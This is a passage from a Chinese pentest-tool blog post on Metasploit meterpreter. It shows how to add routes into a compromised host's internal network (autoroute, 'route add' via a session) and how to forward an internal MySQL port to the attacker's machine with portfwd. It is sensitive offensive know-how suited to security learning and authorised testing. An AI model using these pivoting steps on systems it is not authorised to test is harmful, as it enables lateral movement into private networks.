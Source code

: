 #### meterpreter添加路由
大多时候我们获取到的meterpreter shell处于内网，而我们需要代理到目标内网环境中，扫描其内网服务器。这时可以使用route功能，添加一条通向目标服务器内网的路由。

查看shell网络环境：
```bash
meterpreter>run get_local_subnets
```
添加一条通向目标服务器内网的路由
```bash
meterpreter>run autoroute -s 100.0.0.0/8 (根据目标内网网络而定)
```
查看路由设置：
```bash
meterpreter>run autoroute –p
```
一般来说，在meterpreter中设置路由便可以达到通往其内网的目的。然而有些时候还是会失败，这时我们可以background返回msf>，查看下外面的路由情况。
```bash
route print 
```
如果发现没有路由信息，说明meterpreter shell设置的路由并没有生效，我们可以在msf中添加路由。
```bash
msf>route add 10.0.0.0 255.0.0.0 1
```
说明：1表示session 1，攻击机如果要去访问10.0.0.0/8网段的资源，其下一跳是session1，至于什么是下一条这里不多说了，反正就是目前攻击机可以访问内网资源了。

#### meterpreter端口转发
假设目前我们扫描到了10网段的某个ip存在mysql弱口令，账号密码都有了，那么我们可以在肉鸡服务器上登陆目标服务器mysql。当然，如果我想在攻击机上去登陆mysql，可以使用端口转发。（某些情况下，内网的机器也不能互相ssh，需要登陆堡垒机）

在meterpreter shell中输入：
```bash
meterpreter > portfwd add -l 55555 -r 10.0.0.1 -p 3306
```
表示将10.0.0.1服务器上的3306端口转发到本地的55555端口，然后我们可以在本地运行mysql –h 127.0.0.1 –u root –P 55555 –p 去登陆mysql。其他端口如ssh、ftp等都类似，这个过程跟msf代理很像。


*网络上关于metasploit用法的资料很多，这里主要记录一些常用用法，以及个人使用过程中的一些坑*

参考文章：
http://www.freebuf.com/sectool/72135.html
http://blog.csdn.net/lzhd24/article/details/50664342
http://blog.csdn.net/qq_34457594/article/details/52756458
http://www.freebuf.com/sectool/56432.html
http://www.freebuf.com/articles/network/125278.html

### 传送门
[【渗透神器系列】DNS信息查询](http://thief.one/2017/07/12/1/)
[【渗透神器系列】nc](http://thief.one/2017/04/10/1/)
[【渗透神器系列】nmap](http://thief.one/2017/05/02/1/)
[【渗透神器系列】Fiddler](http://thief.one/2017/04/27/1)
[【渗透神器系列】搜索引擎](http://thief.one/2017/05/19/1)
[【渗透神器系列】WireShark](http://thief.one/2017/02/09/WireShark%E8%BF%87%E6%BB%A4%E8%A7%84%E5%88%99/)



